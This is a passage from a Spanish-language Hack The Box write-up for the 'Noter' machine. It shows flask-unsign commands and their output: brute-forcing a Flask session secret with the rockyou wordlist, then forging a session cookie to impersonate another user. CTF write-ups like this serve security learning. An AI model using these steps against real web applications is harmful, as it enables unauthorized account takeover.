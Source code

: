 ```null
```

Desde la web [jwt.io](https://jwt.io) se puede ver como está compuesto. No puedo modificarlo al no disponer del secreto

<img src="/writeups/assets/img/Noter-htb/6.png" alt="">

Pruebo a aplicar fuerza bruta con la herramienta [flask-unsign](https://github.com/Paradoxis/Flask-Unsign)

```null
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoicnViYngifQ.ZSf3vA.NhlJpydkmUV99nayMPhu5rMus90' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'rubbx'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17664 attempts
b'secret123'
```

Habiendo obtenido este valor puedo crear la nueva cookie para el usuario ```blue```

```null
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoicnViYngifQ.ZSf3vA.NhlJpydkmUV99nayMPhu5rMus90'
{'logged_in': True, 'username': 'rubbx'}
```

```null
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.ZSf87g.8zx2yqZ8Ak6THo0a8dlRYKbe3xI
```

